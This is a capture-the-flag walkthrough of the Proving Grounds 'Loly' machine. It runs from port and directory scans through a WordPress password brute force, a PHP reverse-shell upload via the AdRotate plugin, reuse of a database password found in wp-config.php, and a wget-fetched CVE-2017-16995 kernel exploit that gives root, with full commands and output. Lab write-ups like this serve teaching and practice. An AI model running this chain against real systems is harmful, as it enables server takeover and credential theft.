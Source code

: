 ```yaml
---
layout: default
title: Loly
parent: Proving Grounds Play
nav_order: 26
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.242.121
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-14 21:06 EST
Nmap scan report for 192.168.242.121
Host is up (0.12s latency).
Not shown: 65050 closed tcp ports (reset), 484 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.31 seconds

```

# Enumeration

---

## 80 | HTTP

### Gobuster scan

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ gobuster dir -u http://192.168.242.121 -w /usr/share/wordlists/custom/large_directories.txt -x aspx,php,txt,conf -t 80 -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.242.121
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/custom/large_directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx,php,txt,conf
[+] Timeout:                 10s
===============================================================
2023/11/14 21:08:11 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 194] [--> http://192.168.242.121/wordpress/]
```

Checking _/wordpress/wp-admin_ results in page not found and attempted redirect to _loly.lc/wordpress_

Updating _/etc/hosts_

![admin](../../../assets/images/ctfs/proving_grounds/loly/admin.png)

### WPScan

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ wpscan --url http://loly.lc/wordpress --disable-tls-checks --enumerate p --enumerate t --enumerate

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

Run WPScan brute force on _loly_ user

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ wpscan --url http://loly.lc/wordpress --disable-tls-checks -U users.txt -P /usr/share/wordlists/rock
you.txt

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - loly / fernando
```

# Exploitation

---

Logon to _loly.lc/wordpress/wp-admin_ as _loly_

## Exploit AdRotate Plugin

The _AdRotate_ plugin allows file upload in zip format

![banner](../../../assets/images/ctfs/proving_grounds/loly/banner.png)

Edit php-reverse-shell.php and zip as _rev.php_ within _zip.php_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ zip rev.zip  rev.php
  adding: rev.php (deflated 59%)

```

Upload rev.zip

![upload](../../../assets/images/ctfs/proving_grounds/loly/upload.png)

Trigger by navigating to _/wordpress/wp-content/banners/rev.php_

![trigger](../../../assets/images/ctfs/proving_grounds/loly/trigger.png)

Receive the reverse shell in our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.242.121] 60228
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 18:34:05 up  1:45,  0 users,  load average: 0.02, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate Wordpress Config Files

Locate db creds in _wp-config.php_

```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

## Pivot to Loly User

First tried the _lolyisabeautifulgirl_ password on _loly_ and it worked.

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password:
loly@ubuntu:/var/www/html/wordpress$ id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)

```

## Check Kernal Version

```bash
loly@ubuntu:/home$ uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

This version of Ubuntu 4.4.0-31-generic is vulnerable to CVE-2017-16995.

![searchsploit](../../../assets/images/ctfs/proving_grounds/loly/searchsploit.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ searchsploit -m 45010
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/vagrant/Documents/PG/PLAY/loly/45010.c



┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ gcc 45010.c -o 45010 --static

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Upload and run on the target to get root shell

```bash
loly@ubuntu:/home$ cd /tmp
loly@ubuntu:/tmp$ get http://192.168.45.217:8000/45010
No command 'get' found, but there are 18 similar ones
get: command not found
loly@ubuntu:/tmp$ wget http://192.168.45.217:8000/45010
--2023-11-14 18:50:07--  http://192.168.45.217:8000/45010
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776472 (758K) [application/octet-stream]
Saving to: ‘45010’

45010                     100%[=====================================>] 758.27K   857KB/s    in 0.9s

2023-11-14 18:50:08 (857 KB/s) - ‘45010’ saved [776472/776472]

loly@ubuntu:/tmp$ chmod +x 45010
loly@ubuntu:/tmp$ ./45010
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007a8aac00
[*] Leaking sock struct from ffff8800349703c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800773d2540
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8800773d2540
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# whoami
root

```
